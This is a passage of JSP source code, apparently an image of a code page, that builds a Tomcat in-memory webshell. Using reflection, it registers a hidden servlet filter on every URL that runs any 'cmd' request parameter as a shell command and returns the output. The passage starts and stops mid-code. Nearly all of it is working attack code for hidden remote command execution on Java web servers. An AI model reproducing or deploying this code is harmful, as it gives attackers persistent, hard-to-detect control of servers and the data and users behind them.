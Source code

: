 ```jsp  
    stdctx.setAccessible(true);  
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);  
  
    Field Configs = standardContext.getClass().getDeclaredField(&#34;filterConfigs&#34;);  
    Configs.setAccessible(true);  
    Map filterConfigs = (Map) Configs.get(standardContext);  
  
    if (filterConfigs.get(name) == null){  
        Filter filter = new Filter() {  
            @Override  
            public void init(FilterConfig filterConfig) throws ServletException {  
  
            }  
  
            @Override  
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {  
                HttpServletRequest req = (HttpServletRequest) servletRequest;  
                if (req.getParameter(&#34;cmd&#34;) != null) {  
                    boolean isLinux = true;  
                    String osTyp = System.getProperty(&#34;os.name&#34;);  
                    if (osTyp != null &amp;&amp; osTyp.toLowerCase().contains(&#34;win&#34;)) {  
                        isLinux = false;  
                    }  
                    String[] cmds = isLinux ? new String[] {&#34;sh&#34;, &#34;-c&#34;, req.getParameter(&#34;cmd&#34;)} : new String[] {&#34;cmd.exe&#34;, &#34;/c&#34;, req.getParameter(&#34;cmd&#34;)};  
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();  
                    Scanner s = new Scanner( in ).useDelimiter(&#34;\\a&#34;);  
                    String output = s.hasNext() ? s.next() : &#34;&#34;;  
                    servletResponse.getWriter().write(output);  
                    servletResponse.getWriter().flush();  
                    return;  
                }  
                filterChain.doFilter(servletRequest, servletResponse);  
            }  
  
            @Override  
            public void destroy() {  
  
            }  
  
        };  
  
        FilterDef filterDef = new FilterDef();  
        filterDef.setFilter(filter);  
        filterDef.setFilterName(name);  
        filterDef.setFilterClass(filter.getClass().getName());  
        standardContext.addFilterDef(filterDef);  
  
        FilterMap filterMap = new FilterMap();  
        filterMap.addURLPattern(&#34;/*&#34;);  
        filterMap.setFilterName(name);  
        filterMap.setDispatcher(DispatcherType.REQUEST.name());  
  
        standardContext.addFilterMapBefore(filterMap);  
  
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);  
        constructor.setAccessible(true);  
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);  
  
```